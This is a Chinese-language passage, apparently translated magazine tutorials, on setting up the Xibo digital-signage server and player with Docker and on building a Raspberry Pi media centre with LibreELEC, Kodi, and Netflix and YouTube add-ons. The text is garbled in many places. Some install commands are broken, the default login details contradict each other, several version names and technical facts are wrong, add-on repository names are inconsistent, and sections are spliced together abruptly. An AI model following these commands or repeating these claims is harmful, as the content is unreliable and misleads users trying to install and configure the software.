利用 PHP 函数，可以执行更高级的处理。例如，如果数据库中保存了关于会议室预订会议的信息，那么 CMS 可以利用当前日期和时间向播放器推送相关内容。请参阅 https://community.xibo.org/s/getting-started/guides-datasets/14149。

该软件在裸机或虚拟机 (VM) 上运行效果同样出色。然而，在生产环境中使用时，虚拟机不一定是最佳选择，尤其是考虑到虚拟机驱动程序可能出现的视频播放问题。

基础机器安装完成后，打开外部终端，运行更新，然后安装 Docker 和 docker-compose。命令应以 root 身份运行或在前面加上 sudo：

```bash
apt update && apt upgrade
```


```bash
apt install apt-transport-https ca-certificates curl software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add-
sudo apt-key add-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
apt install docker-ce
```

```bash
curl -s https://github.com/docker/compose/releases/download/1.24.1/docker-compose-`uname -s`-`uname -m` -o /usr/local/bin/docker-compose
chmod +x /usr/local/bin/docker-compose
```

在安装好 Docker 和 Docker Compose 之后，还需要几个步骤来配置 docker-compose 文件，以使 Docker 容器之间能够相互通信：

```bash
mkdir /opt/xibo
cd /opt/xibo
wget -O xibo-docker.tar.gz https://xibo.org.uk/api/xibo
tar -xzf xibo-docker.tar.gz
cp config.env template.config.env
nano config.env
```

在 config.env 在线工具中，为 MySQL 数据库输入一个强密码，并配置其他任何必要的选项。在此处了解更多关于 docker-compose 文件的信息：https://wiki.xibo.org.uk/docs/setup/xibo-cms-with-docker-compose#the-docker-compose-file

接下来，使用 `docker-compose up -d` 启动容器，并等待 Docker 完成其工作。现在可以通过资源浏览器访问服务器，输入 `http://IP_ADDRESS_OF_SERVER` —— 在登录界面输入您的用户名和密码。

### 播放端 (The player)

Xibo 为 Windows 和 Linux 提供了开源播放端，同时也为 Android、Tizen 和 Web OS 等其他平台提供了付费选项。在本文中，我们将把播放端安装在 Ubuntu 20.04 上。最简单的方法是使用 Canonical 的 Snap 软件包系统，它使客户端的安装变得简单且更新会自动应用。同样，在终端中只需输入以下命令即可安装客户端：

```bash
snap install xibo-player --channel=stable
```

为了使客户端能够与服务器通信，需要遵循几个步骤。

首先，在 Web 浏览器中，使用默认凭据 `xibo.admin` 和密码 `xibo` 登录 CMS。导航到“设置 (Settings)”选项卡，并从“CMS 密钥 (CMS Secret Key)”字段复制密钥。可以通过桌面或在终端输入 `xibo-player` 来启动播放端。首次打开时，将出现配置界面。输入 CMS 服务器组件的 URL，粘贴 CMS 密钥的值，以及客户端用于保存文件的路径。配置客户端需要截图中显示的信息。

选择“保存 (Save)”选项时，客户端将联系服务器，服务器将反馈该显示端 (Display) 当前尚未注册。现在，回到 Web 浏览器，导航到“显示端 (Displays)”页面，这里将显示一个条目。在屏幕右侧选择“选项 (Options)”菜单，然后点击“授权 (Authorise)”。最后，回到客户端点击“保存客户端 (Save client)”，客户端将报告其已获得授权并准备就绪。随后可以关闭选项界面，再次打开客户端时将显示默认页面。配置完成后，客户端将下载默认布局所需的文件。然后即可启动播放端。

该图表解释了 Xibo 数字标牌系统的概念。

> **快速提示**
> 即将推出的 Xibo 第 3 版本包含许多正在开发中的令人兴奋的功能，包括更强的交互性、用于存储媒体的文件夹、权限重构以及对通过 RS232 发送命令的支持。

### 会议时间 (Conference time)

我们将演示的示例是在会议场馆周围设置的显示端。布局将在区域 1 (Region 1) 中包含一个标题，区域 2 中包含与区域 3 中的视频和图像相关的文本。区域 4 将包含一个开源 RSS 馈送的滚动跑马灯。

在创建示例之前，我们应该研究一下图形用户界面 (GUI)：
- 1. 布局按日期和时间进行调度。
- 2. 在此处创建布局。
- 3. 在此处管理媒体。
- 4. 在此处管理显示端。

回到 Web 浏览器，登录 Xibo 数字标牌 CMS，导航到“布局 (Layouts)”部分并创建一个新布局。分配名称并保存后，使用默认设置即可。创建后，将打开布局编辑器。第一步是调整默认创建的区域大小。选择编辑区域的选项（图标看起来像一个笔记本），然后使用拖动手柄调整橙色矩形的大小。向布局中添加更多区域，以便复制图表中的图像，使其内部包含四个区域。

区域可以设置为循环 (loop)，当它们包含某些类型的内容时非常有用。为此，选择该区域，然后在决定是否启用循环选项之前阅读相关指南。在保存对布局所做的更改之前，使用右侧窗格中的选项设置浅色背景色或上传背景图像。

在继续设置数字标牌之前，回顾一下已经完成的工作是一个好主意。到目前为止，服务器/CMS 已安装，客户端已安装，且客户端已连接到服务器并能进行通信，且基本服务器/布局功能在正确数量的区域中运行。在下一步中，区域将被填充信息，最后布局可以被调度并在播放端上查看。

### 建立您的区域 (Establish your Region)

首先，顶部的区域将被填充一个标题，因此通过选择看起来像钢笔的图标将标题编辑到区域 1 中，点击文本小部件上的加号，然后在播放列表编辑器中选择区域 1。选择文本小部件上的编辑图标并输入内容的名称，因为会显示格式示例。然后保存内容。编辑区域时，预览窗口的右侧会出现选项。这是一个与文本小部件相关联的选项示例。

与其相关的是在底部区域添加 Linux 新闻的 RSS 馈送。这与输入文本非常相似，但用户应使用“网站 (Website)”小部件的触发器。这通过编辑器右侧“设置 (Settings)”选项卡中的配置进行格式化。“常规 (General)”选项卡上的默认设置应足够。在“配置 (Configuration)”选项卡中选择“Feed URL”字段并添加指向合适 RSS 馈送的链接。在“模板 (Templates)”选项卡中选择“仅限网站标题 (Website Title Only)”，最后在外观选项卡中完成。选择“管理布局 (Manage Layout)”查看做了哪些更改，并保存更改。

Xibo 许多强大功能之一是能够在不同区域调度不同的内容且同时运行。这对于本教程的最后一部分非常有用，因为我们将最后两个区域填充为左侧的文本信息和右侧的视频。文本信息将与显示的视频相关联。当视频切换到第二个视频内容时，文本也应同步更改。

我们将添加的内容是 Big Buck Bunny 的视频及其相关信息。第二部分内容将是 Linus Torvalds 的照片及其相关信息。

### LINUX 播放端选项 (LINUX PLAYER OPTIONS)

一旦完成了客户端的初始配置，后续选项将由 CMS 设置。要访问这些选项，请导航到“显示端设置 (Displays Settings)”并进入所选的显示端配置文件或创建一个新配置文件，该配置文件可分配给特定的显示端。在显示端设置中，可以更改一系列功能，例如客户端签到 (check-ins) 的间隔、来自服务器的信息量、播放端窗口的大小和位置（默认为全屏）以及播放端是否可以执行 shell 命令。最后一个选项非常有用，因为可以设置显示端在一天中的某个特定时间关闭。

当客户端加载时，按下 `I` 键将加载信息界面。此界面提供了访问各种信息的入口，例如正在下载的媒体、是否存在任何上传失败的情况，并提供了在不返回桌面地退出播放端的选项。由于客户端是需要全天大部分时间运行的设备，如果发生错误，默认行为是播放端自动重新加载。

在客户端中按下 `I` 键会弹出状态界面。

### 使用 XIBO 实现更多功能 (DO MORE WITH XIBO)

除了已经讨论的多媒体格式外，Xibo 还可以利用大量资源来创建有效的数字标牌内容。例如，音频文件可以作为背景音乐加载，横幅日历项可以从特定格式读取（例如 Google 日历），通过创建节点可以添加倒计时定时器，以提醒用户当前时间。

现在看一些更面向数据的项，可以添加货币追踪器以及显示来自 tubular 数据集对象的数据。这些数据可以通过表格视图、跑马灯或图表视图显示，也可以使用“嵌入 HTML (Embedded HTML)”小部件嵌入其他网站的信息。不过，在使用此功能时，请确保您拥有显示另一个网站信息的权限。

虽然严格来说不是一种媒体类型，但“播放列表 (playlists)”是一个极其强大的功能，因为它们允许将之前配置好的磁贴组合添加到多个布局中。当多个布局同时调度时，它们可以顺序播放，或者可以配置其中一个覆盖另一个。通过这种方式，可以在恢复正常调度之前，短时间内显示一个紧急布局。

“活动 (Campaigns)”是一种将多个布局分组在一起的资产，这样就可以通过一次操作进行调度，而不需要花时间分别调度多个布局。


Linux 内核。首先，从 `https://download.blender.org/demo/movies/BBB` 下载一张采用知识共享（Creative Commons）许可的 Linus Torvalds 照片以及《大白兔》（Big Buck Bunny）电影。

要添加视频，请选择您希望显示视频的区域（Region），然后在底部的工具栏中将鼠标悬停在视频按钮上，然后使用抓取（grab）选项将其拖动到您希望出现的区域。此时，了解视频文件的长度非常重要，以便您可以将相邻区域中文本的定时设置得与其一致。

### 为您的显示添加文本

要添加文本，请从合适的来源抓取一些内容并暂时存储在文本文件中。要将其添加到 Xibo，请从区域编辑器中选择所需的区域，然后将选择从区域编辑器移开，再次高亮显示所需区域。使用抓取按钮将其拖动到相关区域。文本组件添加后，将持续时间设置为与视频文件相同，然后点击选项按钮中的铅笔图标。粘贴文本文件的内容并进行适当的格式化，然后保存右侧的区域设置。如果您希望文本滚动，请为该区域添加跑马灯（marquee）效果。

上述步骤可以在任何需要的地方重复。使用布局（Layout）设计工具，选择包含《大白兔》视频的同一个区域，从屏幕底部的窗口选择工具中选择“图像（Image）”，并使用抓取柄将其拖动到选定区域。当被询问时，选择“添加文件（Add Files）”以选择要上传的照片。当缩略图出现在上传窗口中时，选择“上传（Upload）”按钮，然后点击“完成（Done）”，您将看到该区域现在有两个项目：一个视频和一个图像（您可能需要向右滚动）。选择图像，点击“设置持续时间（Set duration）”并将其设置为 60，然后保存更改。

现在选择相邻区域，并使用文本组件上的抓取柄将其拖动到该区域。该区域现在应包含文本和视频。确保文本组件以正确的顺序出现，从而与另一个区域的内容顺序相匹配。如有必要，可以通过将组件拖动到正确位置来更改。再次设置 60 的持续时间，然后使用区域预览上的铅笔图标启用编辑模式，在此您可以粘贴内容并进行格式化。与之前一样，如果文本需要在区域中移动，请设置跑马灯效果。现在所有内容都已添加到布局中，可以在 Web 浏览器中进行预览。为此，点击返回箭头按钮，这将使您回到区域编辑预览界面。随后将显示整个布局的概览。只需选择“显示（Display）”图标，即可在浏览器中显示预览。请注意，并非所有内容都能以此方式预览。

布局完成后，最后一步是将其推送到显示终端。选择屏幕顶部的选项来发布（publish）布局。这意味着更改将被保存并准备好显示。在对布局进行进一步更改时，这些更改可以分批发送，也可以在稍后时间统一发布。此外，发布更改可以按计划执行，这非常方便。

流程的最后阶段是将布局调度（schedule）到显示终端。要完成此操作，请在左侧选择“调度（Schedule）”并添加新条目。弹出窗口加载后，添加布局，选择显示终端、布局和显示日期，以及显示终端的更多选项。使用选项保存调度添加，这可以在日历上看到（如果日历未出现，请确保在屏幕顶部的选项中选择该显示终端）。

现在，回到桌面，打开 Xibo 播放器，几分钟内内容将被下载并在播放器上显示。

到目前为止，我们仅仅触及了这个数字标牌系统的皮毛。对于一些更高级的功能，可以尝试这个：查看使用数据集（datasets）来显示表格数据（数据集也可以用于跑马灯），以及使用 CMS 这一基于日期和时间管理数据集不同部分的强大工具。欲了解更多信息，Xibo 团队花费了大量时间编写文档以支持所有软件用户。这些文档可以在 `https://xibo.org.uk/manual/env/index.html` 找到。

配置完成后，客户端将下载默认布局所需的文件，随后将予以显示。

> **快速提示**
> 服务器的默认凭据为 `xibo_admin` 和 `password`。首次登录后应更改密码，可以通过点击右上角的头像并选择“编辑个人资料（Edit Profile）”来完成。

编辑区域时，屏幕右侧会出现选项。这是一个与文本组件相关选项的示例。

>> 获取更多纸质标牌，请立即订阅 http://bit.ly/LinuxFormat

### 构建一个由 Pi 驱动的媒体中心

用 Jonni Bidwell 那套由 Pi、Kodi 和过多 LED 灯驱动的惊人媒体中心开启 2022 年。

自从有了 Raspberry Pi，人们就一直用它来制作媒体中心。即便是在最初的 Pi 上，得益于其 VideoCore SoC，尽管只有 256MB RAM，它也能流畅播放 1080p 视频。

媒体中心发行版迅速涌现以利用这一特性，在一段时间内，你的配置通常就是 Raspberry Pi 加上一个毫无想象力的精简客户端，这成了一种相当统一且单调的做法。Linux 上的媒体播放器有着悠久的历史（而且 MPVplayer 依然强劲），但第一个进入 Pi 的播放器其根源可以追溯到 2000 年代初的原始 Xbox。除了作为玩微软《光环》（Halo）的平台外，这款游戏机在自制软件（homebrew）爱好者中非常受欢迎，因为（得益于流行游戏中易于利用的缓冲区溢出漏洞）它们可以被改造成为临时的 PC。

其中一个此类作品就是 Xbox Media Player，它在 2008 年（强调到那时它已远不止是一个播放器）成为了一个媒体中心应用程序的基础，随后通过由当时的高中生 Sam Nazereko 组建并紧随 Pi 发布而推出的 RaspBMC 发行版进入了 Raspberry Pi。

如今，部分由于微软的威胁，XBMC 已更名为 Kodi。RaspBMC 也有了新名字：OSMC（Open Source Media Centre），这反映了其构建版本也适用于 Vero 和第一代 Raspberry Pi。

Kodi 几乎可以安装在任何运行 Linux 的设备上。它作为桌面工具表现出色（甚至在 Mac 和 Windows 上），但如果您想将其作为专用媒体播放器，那么部署一个为此用例量身定制的发行版会更有意义。OSMC 是个不错的选择，但到目前为止，最常见的基于 Pi 的多媒体发行版是 LibreELEC。

### Kodi 学院

### Kodi 和 LibreELEC 的新版本已发布，但（目前）仅限 Raspberry Pi 4 用户...

LibreELEC 是从 OpenELEC 分叉而来的，OpenELEC 在 2009 年诞生，是一款用于运行 XBMC 的极简 Linux 版本。在 Pi 诞生后不久，它也迅速地将重心转向了 Pi。

2017 年，该项目重启，大多数 OpenELEC 团队成员加入了 LibreELEC 项目。LibreELEC 将自己描述为运行 Kodi 所需的“刚好够用的操作系统（JEOS）”，并战略性地将其发布时间与 Kodi 保持一致。Kodi 20 (OmegaMatrix) 是一个重大版本，在 2021 年 8 月下旬，该版本被整合进 LibreELEC 10.0.0 中。此后，两者都有几次小版本修订。在撰写本文时，我们使用的是带有 Kodi 19.3 的 LibreELEC 10.0.1。当你阅读本文时，可能已经有了新版本。

### 破坏性变更

令我们感到有些震惊的是，旧款 Pi（事实上除了 Pi 4 以外的所有版本）目前在 LibreELEC 10 上都不受支持，而且 Pi 2、Zero 和原始 Pi 在未来的任何版本中都将不再受支持。在某种程度上，这是显而易见的，考虑到这些是你应该在规划早期就检查的事情。幸运的是，非常感谢 Pi 基金会，我们拥有一个带有共形涂层（meaning it's waterproof and can be used in a tank for this Pi backup now, — Eben）的 RPi 4。当你阅读本文时，LibreELEC 10 可能已接近支持 Pi 2 和 3；目前，你可以放心地在早期 Pi 上运行 LibreELEC 9 —— 它们目前依然功能完备且受支持。事实上，本文中最丰富多彩的部分目前只能在那些版本上运行。详情请参阅右侧关于 LibreELEC 9.2 和 Kodi Leia 的方框。

这种硬件限制有明显原因，最迫切的是 LibreELEC 中的 Pi 图形驱动程序（以及许多其他小型 ARM 设备的驱动程序）正在经历重大重写。此前，每个板卡都有一个单独的驱动程序，其中包含所需的供应商内核、其他专有工作站驱动以及一些为了让 Kodi 实现图形加速而打的丑陋补丁。这是一个临时的过程，由于 Kodi 19 不再支持大多数这些专有方法，它们在 LibreELEC 10 中被移除了。相反，目标是让所有平台通过 GBM (Generic Buffer Management) 和 VA-API (Video for Linux 2) API 使用统一的显示和解码方法。这将使所有构建版本能够在主线内核上运行，而无需任何丑陋的黑客手段（hacks）。

除了这些更改，插件系统已升级到 Python 3。

这意味着任何仍基于 Python 2 的插件都将完全无法工作。所有官方 Kodi 插件都已更新，但第三方插件（包括许多用于访问盗版内容的违规插件）尚未更新。Python 2 插件在升级时会被自动禁用，因此如果您依赖这些插件，在它们更新之前，建议继续使用 LibreELEC 9 而非 10。

通常 LibreELEC 的开发专注于最新版本，但去年针对前一版本发布了一个罕见的小版本（9.2.8）。这是由于 Netflix 和任何其他流媒体库使用的 Widevine DRM 发生了变化，导致 LibreELEC 9 的工作停滞，直到新库被正确适配。

我们在过去几个月里致力于把很多事情做好，我们不想疏远那些用户，所以我们尽力确保这里涵盖的所有内容在昨天的硬件和软件版本上基本都能运行。事实上，我们并不想在精简客户端上运行旧版本，仅仅是为了重现我们辉煌的超视觉屏幕照明。

我们发现的唯一主要差异是，当硬件不可用时，Netflix（以及可能依赖 Widevine 的其他服务）会回退到软件解码。因为该插件通过技巧诱导 Netflix 以 1080p 播放（使用了与流行浏览器插件相同的技巧），这给 Pi 3 的 CPU 带来了不必要的压力，导致播放出现卡顿。这是一个次优的设计选择。

为了获得更流畅的体验，请通过右键点击插件并选择“设置（Settings）”，将 Netflix 应用的播放限制在 720p。在“专家设置（Expert settings）”面板中向下滚动到允许您控制分辨率的选项。Pi 4 在软件解码 1080p 时没有问题：其平均负载勉强超过 1.0，而 Pi 3 则在 3.5 以上（因此接近 CPU 饱和）。

> 很快您就能访问您的媒体，并从这些专有服务中进行流式传输。


### 设置 Kodi

LibreELEC 可能是史上最容易安装的 Linux 发行版，Kodi 很快就能准备就绪。

制作并启动 LibreELEC SD 卡的步骤与任何其他 Pi 操作系统基本相同。你只需要确保使用了正确的镜像。目前 LibreELEC 10 仅支持 Pi 4，但这在未来会发生变化（见前页方框）。

从发布页面 https://libreelec.tv/downloads/raspberry 下载镜像。对于 Pi Zero 到 Pi 3，请使用之前的 9.2 系列最新镜像，可以通过在发布页面向下滚动找到。或者考虑投资购买新版本支持的“其他”开发板，例如 Pine64。此外，还有一个用于在普通 64 位 PC 上运行的通用镜像，或者一个即插即用的虚拟机镜像。哦，还有一个适用于 Windows 7、8、9 和 Windows 10 的官方 LibreELEC USB-SD Creator 工具。但它对我们完全不起作用，所以我们将忍受它，因为我们仍然推荐使用 Balena Etcher 来完成此操作。如果遇到任何问题，请参阅 wiki 上的安装页面 (https://wiki.libreelec.tv/installation/create-media)。

一旦你制作并启动了 SD 卡，你将看到 LibreELEC 的启动画面，随后是 Kodi 设置向导。你可能需要插入键盘、鼠标或游戏手柄来进行导航。但如果你将所有设备都接入了带有遥控器的 HDMI 接收器，那么你可以使用它，因为 Kodi 对大多数电视支持 CEC（消费电子控制）协议。Magic Keyboard 甚至能让 CEC 适配器在设置阶段就被检测到。

### 观看高质量内容

> “HDMI 1.4 可以处理低帧率的 4K，但 4Kp60 需要更新的硬件和线缆。”

关于 HDMI，如果你想以 60FPS 观看 4K 内容，或者利用电视上的任何 HDR 功能，请确保所有线缆都符合 HDMI 2.0 标准。HDMI 1.4 可以处理低帧率的 4K，但 4Kp60 需要更新的硬件和线缆。如果你计划观看受 HDCP 2.2（高带宽数字内容保护的最新迭代版本）保护的内容（许多 4K 数字内容都是如此），我们就不展开讨论 Pi 不支持 HDCP 这一事实了。大多数现代显卡和 CPU 现在都支持 HDCP 2.2，因此如果你想查看此类内容，请尝试在台式机或笔记本电脑上运行 Kodi。

选择你的语言并点击“下一步”开始设置。第一步是选择主机名。默认构建的是 LibreELEC，但你可以想一个更好的名字。接下来，如果你还没有通过以太网连接，系统将向你展示一个无线网络列表。选择一个，以便 Kodi 可以自动更新、正确设置时间，并在将来下载媒体集。

接下来，你将激活用于共享的 Samba，并根据需要配置 SSH 以获得正式的远程访问。与 Raspberry Pi OS 不同，LibreELEC 有一个默认的 SSH 密码，如果你在此处开启 SSH，应该将其更改。除非你有足够的理由激活它，否则明智的做法是关闭 SSH。运行 SSH 的 Pi（尤其是使用周知密码的）可能会成为任何想要渗透你网络的人的滩头阵地。稍后当我们开始深入研究 Kodi 的底层设置时，我们会将其开启。

将所有内容设置为 1080p 应该是自动的；而跳转到更高分辨率可能需要手动干预。

### 了解 Kodi

现在你可以开始探索 Kodi 界面了。导航非常直观：点击菜单以打开它们，在向上移动时使用 Escape（或返回）来返回。最难的部分是记住哪些选项在什么位置。哦，如果在媒体播放时打开菜单，这会变得有点令人困惑，直到你记得突出显示其中一个选项会隐藏所有选项，然后你才能重新循环浏览你的选项。

但我们进展太快了，因为我们还没有添加任何媒体。为了测试，最简单的方法是使用我们在某些 microSD 卡上已经设置好的 Samba 共享。该共享将显示在 Windows 网络的通用 WORKGROUP 下，你应该能从你的设备连接到它。“电视剧”或“视频”选项允许你浏览所有添加的内容，你的媒体应该出现在 Kodi 视频菜单的相应部分中。

现在剩下的就是为 Pi 寻找一张用于存储媒体的 SD 卡。由于 Kodi 运行着一些其他服务（包括它自己的媒体服务器），建议使用高速卡。除了本地 USB 存储，你还可以共享来自 Windows (或 Samba) PC 的内容，或者如果你有 Linux 机器，可以使用 NFS 共享。LibreELEC 还支持大多数其他来源，如 DVR（数字视频录像机）设备。

我们手头没有相关硬件，因此对于这个功能，我们将研究如何设置 Kodi 的“视频加载项”插件。前往 `Add-ons > Video add-ons > Install from repository`。你会看到一个很长的广播商列表，包括我们最喜欢的、出色的 Netflix（我们稍后会设置）。现在，向下滚动到 Player WWW 并点击安装。Kodi 将激活，抓取几个依赖项，很快，另一个新选项就会出现在你的 `Add-ons > Video add-ons` 部分中。

浏览内容的感觉非常像翻页——Kodi 中的一切都是通过级联菜单完成的。你会习惯这个，甚至可能会开始更喜欢它，尤其是与 YouTube 狭窄的 Web 界面相比（我们将在后续页面中将其取代）。前往“热门节目”选项，加入大众的观看行列。

另外，由于我们是英国人，我们无法避免讨论天气。所以让我们给 Kodi 添加一个天气加载项。从主菜单选择 `Weather > Service for weather information > Get more` 并选择 Gismetro 提供商。打开天气的设置页面并配置你的位置。如果你想要摄氏度温度，请前往 `Settings > Interface > Region and General` 并将“区域默认格式”设置更改为你的所在地。

使用 LibreELEC 的优势之一是它自带了一系列已安装的 Kodi 加载项。这些主要是实用性插件，以编解码器、库和用户空间工具的形式出现，而不是直接将你连接到内容的东西。但 Kodi 可以流式传输媒体的来源并不缺乏。你可能参考过我们的 OpenMediaVault 教程，或者家里有另一个 NAS 设备。添加此类设备很简单——只需通过 `Settings > Videos > Files > Add videos` 添加相关的 Samba 共享。关于在将媒体添加到 Kodi 之前如何组织媒体的最佳实践，请参阅 https://kodi.wiki/view/Settings/Create_Video_Library。有关安装 Netflix 加载项的方法请参阅索引（下方），并考虑同时添加 LBRY、Soundcloud 或 Bandcamp 加载项。

### LIBREELEC-FLIX AND CHILL

Netflix 加载项不在 Kodi 的官方仓库中，但这并不意味着它很难安装或你不应该使用它（你仍然需要一个 Netflix 账户才能使用，所以不要惊慌！）。要查找仓库文件的链接，请访问 https://github.com/SlyGuy/plugin.videology.netflix#download-links，然后保存相关的 ZIP 文件，可以通过在 Kodi 设置中启用 SSH 并使用 `wget`，或者直接从浏览器保存到 Kodi 的某个 Samba 共享中。无需解压。

现在前往 `Settings > System` 并选择 `Add-ons`。你会发现 Kodi 将引导你前往保存 ZIP 文件的位置。系统会告知你“从未知来源安装”已被禁用，并引导你前往 `Settings > Add-ons > System - Unknown sources` 予以启用。执行此操作，然后开始安装 Netflix 插件。

现在返回加载项浏览器，选择 `Install from repository > CastianTV > Video add-ons > Netflix`。系统会提示你安装 InputStream Helper，你应该安装它。

现在你准备好使用 Netflix 了。进入“视频加载项”部分并启动它。随后你会收到安装 InputStream Adaptive 加载项的提示，将其启动。系统会提示你登录。你会看到一个关于 Netflix 的设置警告，这意味着用户名和密码验证可能不起作用（尽管它实际上运行正常）。不过，如果你的凭据被识别，你可以直接使用；如果不行，请使用已安装的密钥验证方法。完整指令可以在项目的 GitHub 上找到：https://github.com/CastianTV/plugin.videology.netflix。

当你尝试播放内容时，会弹出一个提示要求安装 Widevine DRM 库并接受一些条款。在下载 1GB 的 Chrome OS 恢复镜像并进行简单的提取之后，你的媒体将开始播放。


### 高保真 Kodi

将全球最受欢迎的流媒体网站集成到 Kodi 中，看看树莓派在高分辨率下的表现如何。


由于 Pi 4 的图形处理能力比前代更强，它能够播放“电影 4K”分辨率（4.096x2.160），而不仅仅是“电视 4K”（3.840x2.160）以及 10-bit (HEVC) 内容。虽然它目前可能还无法以 60Hz 驱动两台 4K 显示器，但绝对可以驱动一台。你需要启用一项处理此功能的设置，这会让 SoC 的运行温度比平时稍高。为此，你需要启用 SSH 访问并登录到你的 Kodi 设备，请记住 Kodi 只有一个账户，即 root。因此，登录指令将是 `ssh root@192.168.x.x`。记得你随时可以在状态屏幕中找到 Kodi 的 IP 地址。



进入操作系统后，通常你会运行 `raspi-config` 来启用此功能，但 LibreELEC 不包含这个程序。相反，你必须以读写模式重新挂载 `/flash` 分区并手动编辑 `config.txt`：

```bash
mount -o remount,rw /flash
nano config.txt
```

现在添加一行 `hdmi_enable_4kp60=1`，退出 Nano 并重启。

如果还是没有效果，请确保你使用的是 HDMI0 端口——即最靠近 USB-C 电源端口的那个。另一个 HDMI 端口只能支持 4K@30fps。如果你使用的是游戏显示器或其他支持高刷新率的显示设备，你应该查阅 `www.raspberrypi.org/documentation/computers/configboot/config_txt.html` 处的文档。那里会告诉你如何将 HDMI 设置为 4K@60Hz。请记住 `/boot/config.txt` 文件。对于 4K HEVC 内容，你需要调整图形/系统内存分配。经验表明，GPU 在这里至少需要 340MB，这同样需要手动编辑 `config.txt`。

你可能没有 4K 内容，而且除了在 Kodi 上运行 Netflix（或者任何非官方工具平台）之外，你无法通过其他方式流式传输该分辨率。但如果你仔细寻找，YouTube 上有大量此类内容。

糟糕。我们遇到了第一个问题：无法在 Kodi 上查看 YouTube 内容。让我们试着修复它。导航至 设置 > 插件 > 从库安装 > Kodi 插件库 > 视频插件，然后选择 YouTube 插件。别担心——这次我们不需要编写任何代码或进行任何验证；它是安全可安装的，所以点击安装。系统会提示你运行设置向导，让你选择语言和地区。如果你不想与 Google 分享你的信息，请跳过此步骤（但在稍后移交 API 密钥时，这个状态将被抵消）。

### 接入 YouTube 内容

现在在视频插件部分出现了 YouTube 按钮图标，但它无法工作。YouTube 不希望其内容通过非官方应用程序观看，并且在未登录 Google 账户的情况下，其官方网站不提供支持性的 API 访问。绕过此方法是：在 Google 开发者网站注册一个新项目，为该项目账户生成 YouTube Data API，然后将 YouTube 插件连接到该项目。实际上，你是在伪装该插件是你自己的项目（侧载插件的开发者表示这样做没问题，这也是指令采用此方法的原因）。

打开 developer.google.com/apis/library 并使用你的 Google 账号登录。点击“创建项目”并给它起一个有意义的名字，例如“KodiTube”。哦，不要尝试使用企业级 Google 账号，因为创建这些项目需要组织权限，否则你会收到错误消息。项目设置好后，选择“启用 API 和服务”。然后找到“YouTube Data API v3”并选中它。依次点击“创建凭据”，激活 API，然后再次点击“创建凭据”。选择 YouTube Data API，然后选择“公共数据”。点击下一步，你将看到客户端 ID（Client ID）和客户端密钥（Client Secret）。把它们记录下来！不用担心丢失这个控制面板，它一直可用。

### 开始配置

完成后，点击“完成”，然后点击“配置同意屏幕”。选择“外部”用户类型并点击“创建”。给你的应用起个名字（如果不确定，可以使用与项目名称相同的名字），并输入你自己的支持电子邮件（别担心，这些都不会被公开，Kodi 插件开发者也看不到）。同时在底部设置开发者电子邮件。然后点击“保存并继续”。在接下来的屏幕中一路点击“保存并继续”，直到看到应用注册的摘要。

点击左侧的“创建 OAuth ID”，然后（再次）点击顶部的“创建凭据”。这次选择“OAuth 客户端 ID”，应用程序类型选择“桌面应用”，并为你的客户端起个名字。同样，名字并不重要，可以叫它“KodiTube”。现在你会得到一个客户端 ID 和客户端密钥。同样，不用担心丢失它们，回来时它们依然在这里。

相反，你应该担心如何将这些长字符串输入到 Kodi 中。你必须手动输入它们。一个更省心的方法是右键点击 YouTube 插件进入“设置”。选择“配置”，然后点击“启用 API 配置页面”按钮。返回浏览器中的 Google 开发者页面（或者切回该标签页），然后打开一个指向 API 密钥复制工具的新标签页。回到 Google API 标签页的凭据部分，复制 API 密钥，然后将其粘贴到 KodiTube API 页面的第一个框中。返回 Google API 标签页，从 OAuth 部分复制客户端密钥并保存。回到 YouTube 插件的设置页面，禁用 API 页面。瞧，繁琐的转录工作被化解了。

现在你应该能使用该插件搜索结果了。你应该能够登录（以获取订阅和推荐）。返回开发者控制面板，在 OAuth 同意屏幕部分向下滚动到“测试用户”并添加你的 Google 账号。在你的应用中，你可以添加最多 99 个好友，帮他们省掉这些设置麻烦（但他们仍然需要设置 API 密钥），不过我们先关注第一个人。



现在返回 Kodi 并打开 YouTube 插件。激活“登录”。点击登录后，系统会告知你需要登录。然后（在另一台设备上）访问 console.google.com/device 并输入你看到的代码。你可能会看到关于 Google 未指定谁在使用此应用的警告，点击“继续”即可安全忽略。接着你会收到另一个警告，提示插件想要访问你的 Google 账户，这同样可以安全允许。现在你应该看到一个新的单次代码，再次访问 google.com/device 并再次同意条款。终于，你现在可以使用这个插件了！

Google Cloud Platform 可能不是个最令人兴奋的地方，但他们的坚持将通过免费的使用额度得到回报。

### 使用 KODI 游戏

除了用电影和图片娱乐你，如果还能玩游戏就更好了。虽然有一些让 Steam 运行的方法，但遗憾的是，那只是美好的幻想。

官方 Kodi 商店中有一个 Steam Community 插件，其功能与 Steamworks 应用大致相同——允许你浏览商店、查看库等等。如果你是在安装了 Steam 的 PC 上使用 Kodi，那么你可以安装 Steam Launcher 插件（同样来自官方插件库）。

我们认为 Kodi 做复古游戏会很有趣，而且确实有一个名为 RetroMania 的 Kodi 插件可以让你玩经典游戏，但我们还没有在最新版本中将其运行起来。不过，我们尝试了 Internet Archive 的复古游戏合集，非常有意思。使用“从库安装”选项，导航至 游戏插件 > 游戏提供者 > Internet Archive Game Showcase。

